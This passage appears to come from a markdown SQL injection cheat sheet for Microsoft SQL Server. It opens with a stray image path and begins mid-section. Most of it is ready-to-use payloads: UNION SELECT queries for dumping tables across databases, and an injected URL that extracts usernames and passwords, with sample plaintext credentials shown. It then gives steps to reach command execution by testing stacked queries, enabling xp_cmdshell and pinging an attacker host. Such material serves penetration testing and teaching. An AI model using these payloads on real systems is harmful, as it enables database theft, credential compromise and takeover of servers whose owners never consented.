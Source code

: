 Returns
```
The username costs
The password costs
```


### Dump table

To dump the table of a current database 
```
UNION SELECT NULL,column1,NULL FROM table1--
```

To dump the table from another database
```
UNION SELECT NULL,other_column,NULL FROM other_database..other_table--
```

In MSSQL the "+" or "%2b" after url encoding is used as a concat so we can modify our base dump to pull all the information we need in one field with the following
```
https://insecure-website.com/products.php?gifts=xyz'UNION+SELECT+username%2b':'%2bpassword,NULL+FROM+Users_db..Users_tb--
```

Returns
```
The Alice:is_the_best costs
The Bob:Str0ngP@ss! costs
```

## SQLi RCE

To execute code on the target server a few things need to be verified.  First verify the ability to execute xp_cmdshell function.  A quick way to do that is using the command `is_srvrolemember('sysadmin')`. If the output of this is 1 then the user has proper credentials to execute xp_cmdshell.

Next if running `exec xp_cmdshell 'ping your_host'` does not return a ping to listening tcpdump  then xp_cmdshell will need to be enabled. This function is disabled by default in MSSQL 2005 or newer. To enable this function multiple commands need to be run, This means sending stacked queries is required.

To see if stacked queries is supported a simple time delay command can be done.`WAITFOR DELAY '0:0:5'` This will wait 5 seconds then return the request, by using a known good command we can just add a `;`  or `%3b`before the comment line and the waitfor command.  This will give us good output but after the delay to verify stacking multiple commands will work.

Once stacked queries have been verified the commands to enable xp_cmdshell are as follows:
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
This command can also be stacked with the ping command to see if code execute is possible.
